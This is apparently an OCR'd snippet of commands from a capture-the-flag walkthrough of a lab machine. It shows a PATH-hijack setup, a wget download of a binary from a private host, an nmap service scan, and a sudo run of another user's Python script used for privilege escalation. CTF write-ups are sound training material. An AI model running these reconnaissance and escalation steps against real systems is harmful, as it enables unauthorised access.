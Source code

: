 export PATH=/home/rabbit:$PATH
set disassembly-flavor intel
wget http://10.10.208.142:8000/teaParty
nmap -sC -sV -oA nmap/all-tcp 10.10.167.35
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
